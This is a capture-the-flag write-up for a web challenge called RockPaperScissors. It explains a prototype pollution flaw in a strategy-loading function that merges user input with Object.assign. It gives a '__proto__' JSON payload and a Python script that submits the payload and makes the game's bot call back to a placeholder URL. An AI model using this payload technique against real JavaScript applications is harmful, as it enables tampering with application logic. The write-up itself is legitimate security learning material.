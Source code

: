 ## WriteUp for RockPaperScissors

In ```/game/play-strategy``` page, the bot tests the given strategy and if player wins more than 31337 times the bot send reqeust to callbackUrl.
```javascript
  finishGame() {
    if (this.scores.player - this.scores.computer > 31337) {
      this.scores.didPlayerWin = true;
    }
  }
```

However, it fulfill that condition in normal condition.

There is prototype pollution in ```/public/js/play.js``` to use.
```javascript
function loadStrategy(sgs) {
  for (let sg of sgs) {
    let new_sg = { "move": "", "id": -1, "if": {} };
    for (let key of Object.keys(sg)) {
      if (typeof sg[key] === 'object')
        Object.assign(new_sg[key], sg[key]);
      else
        new_sg[key] = sg[key];
    }
    strategies.push(new_sg);
  }
}
```

```Object.assign``` can affect prototype using ```__proto__``` key such as like this.
```json
{
    "name": "Exploit2",
    "strategy": [
        {
            "move": "rock",
            "id": 0,
            "__proto__": {
                "didPlayerWin": true
            },
            "if": {
                "onWin": {
                    "id": 1,
                    "move": ""
                }
            }
        }
    ]
}
```
So the final exploit would be somthing like belows.
```python
import requests
import json

with requests.session() as sess:
    data = {'username': 'test', 'password': 'test'}
    header = {'Content-Type': 'text/plain;charset=UTF-8'}
    domain = 'http://http://rockpaperscissors.sstf.site:34343'
    r = sess.post(f'{domain}/user/signin',
                  data=json.dumps(data), headers=header)

    pp_exploit = {"name": "Exploit2", "strategy": [{"move": "rock", "id": 0, "__proto__": {"didPlayerWin": True}, "if": {"onWin": {"id": 1, "move": ""}, "onLose": {"id": 2, "move": "paper", "if": {"onWin": {"id": 12, "move": ""}, "onLose": {"id": 13, "move": ""}, "onDraw": {"id": 14, "move": ""}}}, "onDraw": {"id": 3, "move": ""}}}]}
    r = sess.post(f'{domain}/game/strategy',
              data=json.dumps(pp_exploit), headers=header)

    str_id = json.loads(r.text)['_id']
    send_data = {'url': f'/game/play-strategy?strategy_id={str_id}&callbackUrl=https://xxxxxxxxx/'}
    send_to_bot = sess.post(f'{domain}/bot', data=json.dumps(send_data), headers=header)

```